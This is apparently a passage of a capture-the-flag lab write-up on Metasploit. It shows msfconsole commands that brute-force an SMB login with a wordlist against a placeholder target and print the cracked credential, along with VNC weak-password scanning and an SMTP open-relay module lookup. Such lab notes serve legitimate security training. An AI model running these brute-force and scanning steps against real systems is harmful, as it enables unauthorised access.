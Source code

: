 Commands:

```bash
msfconsole
search smb_login
use 0
show options
set RHOSTS MACHINE_IP
set SMBUser penny
set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
run
```

Output:

```
[+] MACHINE_IP:445 - Success: 'penny:leo1234'
```

---

### 🔹 Vulnerability Scanning

Metasploit can identify "low-hanging fruit" vulnerabilities.
Example: **VNC login scanner**

```bash
use auxiliary/scanner/vnc/vnc_login
info
```

Output shows supported options, password files, RHOSTS, etc.
This module tests VNC servers for weak/blank passwords.


**Q. Who wrote the module that allows us to check SMTP servers for open relay?**

Commands:

```bash
msfconsole
search smtp_relay
use auxiliary/scanner/smtp/smtp_relay
info
```

---

### 🔹 Exploitation

Metasploit v5 details:

```
=[ metasploit v5.0.101-dev]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post]
+ -- --=[ 562 payloads - 45 encoders - 10 nops]
+ -- --=[ 7 evasion]
```
